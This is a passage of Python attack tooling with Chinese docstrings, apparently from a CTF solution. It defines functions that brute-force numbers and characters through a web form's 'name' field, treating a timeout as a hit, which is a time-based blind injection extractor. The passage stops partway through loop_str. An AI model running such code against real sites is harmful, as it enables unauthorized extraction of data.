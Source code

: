 ```python

def test_int(L, R, payload, log=False, log_result=False):
    """枚举整数直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替整数
    """
    for i in range(L, R):
        url = URL
        data = {"name": payload.format(i)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Number {i} missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if log_result:
                print(f"The matched number is {i}!")
            return i
    return None


def test_char(payload, index=-1, log=False, log_result=False):
    """枚举字母表直到匹配成功
    
    Args:
        payload (str): 接受一个 Format 位的字符串，以{}代替字符
    """
    for char in ALPHABET:
        url = URL
        if index == -1:
            data = {"name": payload.format(char)}
        else:
            data = {"name": payload.format(index, char)}
        try:
            res = requests.post(url=url, data=data, timeout=REQUEST_TTL).text
            if log:
                print(f"Charactor '{char}' missed.")
            sleep(SLEEP_INTERVAL)
            continue
        except:
            if char == '?':
                continue
            if log_result:
                print(f"Matched '{char}'!")
            return char
    return None


def loop_str(L, R, payload, log=False, log_result=False):
    """逐字查找字符搜寻字符串
    
    Args:
        payload (str): 接受两个 Format 位的字符串，第一个`{}`代替为整型，第二个`{}`代替为字符
    """
    result = ""
    for i in range(L, R):
        if log:
            print(f"Testing index {i}...")
        char = test_char(payload, index=i, log=log, log_result=False)
        if char != None:
            result += char
```
